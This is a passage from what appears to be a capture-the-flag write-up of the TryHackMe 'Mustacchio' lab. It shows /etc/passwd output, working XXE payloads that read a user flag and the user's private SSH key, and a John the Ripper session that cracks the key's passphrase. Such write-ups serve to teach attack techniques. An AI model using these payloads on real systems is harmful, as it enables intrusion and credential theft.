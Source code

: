 ```
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
joe:x:1002:1002::/home/joe:/bin/bash
barry:x:1003:1003::/home/barry:/bin/bash
```

This confirmed that the server had a user called barry. 

I then tried to read the user flag from their home folder. This XML payload gave me the first flag.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///home/barry/user.txt" >]>
<root><name>1</name><author>&xxe;</author></root>
```

Next, I used the same vulnerability to extract their SSH key. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///home/barry/.ssh/id_rsa" >]>
<root><name>1</name><author>&xxe;</author></root>
```

I save the key to a file on my machine and tried to use it to connect to the server.

```bash
$ chmod 600 id_rsa
ehogue@kali:~/Kali/OnlineCTFs/TryHackMe/Mustacchio$ ssh barry@target -i id_rsa 
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
barry@target: Permission denied (publickey).
```

The key is password protected, and the password found before did not work. So I used John to brute force it.

```bash
$ python2 /usr/share/john/ssh2john.py id_rsa > john.hash

$ john --wordlist=/usr/share/wordlists/rockyou.txt john.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED       (id_rsa)
1g 0:00:00:05 DONE (2021-06-24 12:34) 0.1727g/s 2476Kp/s 2476Kc/s 2476KC/sa6_123..*7¡Vamos!
Session completed
```
